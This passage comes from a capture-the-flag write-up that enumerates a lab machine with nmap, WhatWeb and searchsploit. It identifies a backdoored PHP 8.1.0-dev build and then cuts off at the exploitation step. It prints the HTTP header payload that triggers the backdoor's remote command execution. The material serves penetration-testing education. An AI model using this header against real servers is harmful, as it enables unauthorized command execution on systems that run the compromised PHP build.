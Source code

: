 ```text
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 16 22:09:22 2021 -- 1 IP address (1 host up) scanned in 8.65 seconds
```
{: .file="enum/targeted"}

We can see how that ports are open: 22 (SSH) and 80 (HTTP).

### WhatWeb

We will start by enumerating the web server. With the [WhatWeb](https://github.com/urbanadventurer/WhatWeb) tool, we can make a first approximation of what technologies the web server is running. To use it:

```bash
whatweb "http://10.10.10.242"
```

```text
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.42 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```
{: .file="enum/whatWeb"}

We can see how the tool displays useful information. First, the server runs `Apache 2.4.1` and second, and more importantly, the `PHP` version that is running is the `8.1.0-dev`. This will attract our attention as the `PHP` version seems to be the `dev` version. We will explore more about this.

## User Shell
---

### Enumeration

We will try to search if the `PHP` version that the web server is running is vulnerable. To do this, we will use the [Searchsploit](https://github.com/offensive-security/exploitdb) tool that allows us to search in the known [Exploit-DB](https://www.exploit-db.com/) from the command line interface:

```bash
searchsploit php 8.1.0-dev
```

![Desktop View](user1.png){: w="700" h="400" }
_searchsploit_

If we analyze this RCE (Remote Command Execution) exploit, we can see how this particular version of `PHP` was compromised and a backdoor was introduced in the code. The only thing to do in order to exploit the vulnerability is to use the following header in an HTTP request and indicate the system-level command that we want to run:

```text
User-Agentt: zerdoiumsystem(whoami);
```

### Exploiting
